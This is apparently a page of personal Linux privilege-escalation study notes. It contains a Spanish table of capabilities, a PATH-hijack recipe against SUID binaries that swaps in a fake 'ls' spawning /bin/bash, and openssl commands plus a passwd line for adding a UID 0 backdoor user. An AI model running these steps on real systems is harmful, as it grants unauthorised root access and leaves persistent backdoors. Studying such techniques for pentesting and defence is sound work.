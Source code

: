 | CAP_SYS_NICE         | Permite aumentar el valor nice del proceso  invocador  (nice(2), setpriority(2)) y cambiar el valor nice de procesos arbitrarios; permite establecer políticas de  planificación  de  tiempo  real para  el  proceso  invocador  y establecer políticas de planificación y prioridades para procesos arbitrarios  (sched_setscheduler(2), sched_setparam(2)).                                                                            |
| CAP_SYS_PACCT        | Permite llamadas a acct(2).                                                                                                                                                                                                                                                                                                                                                                                                              |
| CAP_SYS_PTRACE       | Permite  el seguimiento detallado de procesos arbitrarios usando ptrace(2)                                                                                                                                                                                                                                                                                                                                                               |
| CAP_SYS_RAWIO        | Permite operaciones sobre puertos de E/S (iopl(2) y ioperm(2)).                                                                                                                                                                                                                                                                                                                                                                          |
| CAP_SYS_RESOURCE     | Permite el uso de espacio  reservado  en  sistemas  de  ficheros ext2;  llamadas  ioctl(2)  para  controlar  el registro en ext3; sobrescribir los límites de las cuotas de disco; incrementar los límites  de  recursos (vea setrlimit(2)); sobrescribir el límite del recurso RLIMIT_NPROC; incrementar el límite msg_qbytes para una  cola  de  mensajes  por encima del limite en /proc/sys/kernel/msgmnb (vea msgop(2) y msgctl(2). |
| CAP_SYS_TIME         | Permite la modificación del reloj del sistema  (settimeofday(2), adjtimex(2));  permite  la modificación del reloj de tiempo real (hardware)                                                                                                                                                                                                                                                                                             |
| CAP_SYS_TTY_CONFIG   | Permite llamadas a vhangup(2).                                                                                                                                                                                                                                                                                                                                                                                                           |


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- If we have [[Operative System/Linux/Permisos/SUID\|SUID]] binary
- Re-write the PATH variable to a location of our choosing!
- When the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

Example with `ls`

```shell
cd /tmp && \
echo "[whatever command we want to run]" > [name of the executable we are imitating]
echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
```

Check which folders can I write.

</div></div>

## Weak file permissions
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



### Create a new user
- write a new line entry create a new user!
- Add the password hash of our choice, and set the UID, GID and shell to root.

```shell
openssl passwd -1 -salt [salt] [password]
```

```
new_user:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

